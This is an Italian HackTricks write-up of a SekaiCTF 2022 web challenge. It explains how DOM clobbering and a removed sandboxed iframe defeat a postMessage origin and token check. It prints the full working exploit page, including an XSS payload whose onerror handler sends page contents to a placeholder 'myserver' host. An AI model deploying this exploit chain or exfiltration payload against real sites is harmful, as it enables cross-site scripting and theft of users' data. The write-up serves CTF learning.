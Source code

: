 # Bypassare SOP con Iframes - 2

{{#include ../../banners/hacktricks-training.md}}

## Iframes in SOP-2

Nella [**soluzione**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/obligatory-calc/solution) per questa [**sfida**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/obligatory-calc)**,** [**@Strellic\_**](https://twitter.com/Strellic_) propone un metodo simile a quello della sezione precedente. Controlliamolo.

In questa sfida, l'attaccante deve **bypassare** questo:
```javascript
if (e.source == window.calc.contentWindow && e.data.token == window.token) {
```
Se lo fa, può inviare un **postmessage** con contenuto HTML che verrà scritto nella pagina con **`innerHTML`** senza sanificazione (**XSS**).

Il modo per bypassare il **primo controllo** è rendere **`window.calc.contentWindow`** **`undefined`** e **`e.source`** **`null`**:

- **`window.calc.contentWindow`** è in realtà **`document.getElementById("calc")`**. Puoi sovrascrivere **`document.getElementById`** con **`<img name=getElementById />`** (nota che l'API Sanitizer -[qui](https://wicg.github.io/sanitizer-api/#dom-clobbering)- non è configurata per proteggere contro attacchi di clobbering del DOM nel suo stato predefinito).
- Pertanto, puoi sovrascrivere **`document.getElementById("calc")`** con **`<img name=getElementById /><div id=calc></div>`**. Poi, **`window.calc`** sarà **`undefined`**.
- Ora, abbiamo bisogno che **`e.source`** sia **`undefined`** o **`null`** (perché `==` è usato invece di `===`, **`null == undefined`** è **`True`**). Ottenere questo è "facile". Se crei un **iframe** e **invi** un **postMessage** da esso e immediatamente **rimuovi** l'iframe, **`e.origin`** sarà **`null`**. Controlla il seguente codice
```javascript
let iframe = document.createElement("iframe")
document.body.appendChild(iframe)
window.target = window.open("http://localhost:8080/")
await new Promise((r) => setTimeout(r, 2000)) // wait for page to load
iframe.contentWindow.eval(`window.parent.target.postMessage("A", "*")`)
document.body.removeChild(iframe) //e.origin === null
```
Per bypassare il **secondo controllo** riguardo al token, si invia **`token`** con valore `null` e si rende il valore di **`window.token`** **`undefined`**:

- Inviare `token` nel postMessage con valore `null` è banale.
- **`window.token`** nella chiamata della funzione **`getCookie`** che utilizza **`document.cookie`**. Nota che qualsiasi accesso a **`document.cookie`** in pagine di origine **`null`** genera un **errore**. Questo farà sì che **`window.token`** abbia valore **`undefined`**.

La soluzione finale di [**@terjanq**](https://twitter.com/terjanq) è il [**seguente**](https://gist.github.com/terjanq/0bc49a8ef52b0e896fca1ceb6ca6b00e#file-calc-html):
```html
<html>
<body>
<script>
// Abuse "expr" param to cause a HTML injection and
// clobber document.getElementById and make window.calc.contentWindow undefined
open(
'https://obligatory-calc.ctf.sekai.team/?expr="<form name=getElementById id=calc>"'
)

function start() {
var ifr = document.createElement("iframe")
// Create a sandboxed iframe, as sandboxed iframes will have origin null
// this null origin will document.cookie trigger an error and window.token will be undefined
ifr.sandbox = "allow-scripts allow-popups"
ifr.srcdoc = `<script>(${hack})()<\/script>`

document.body.appendChild(ifr)

function hack() {
var win = open("https://obligatory-calc.ctf.sekai.team")
setTimeout(() => {
parent.postMessage("remove", "*")
// this bypasses the check if (e.source == window.calc.contentWindow && e.data.token == window.token), because
// token=null equals to undefined and e.source will be null so null == undefined
win.postMessage(
{
token: null,
result:
"<img src onerror='location=`https://myserver/?t=${escape(window.results.innerHTML)}`'>",
},
"*"
)
}, 1000)
}

// this removes the iframe so e.source becomes null in postMessage event.
onmessage = (e) => {
if (e.data == "remove") document.body.innerHTML = ""
}
}
setTimeout(start, 1000)
</script>
</body>
</html>
```
{{#include ../../banners/hacktricks-training.md}}

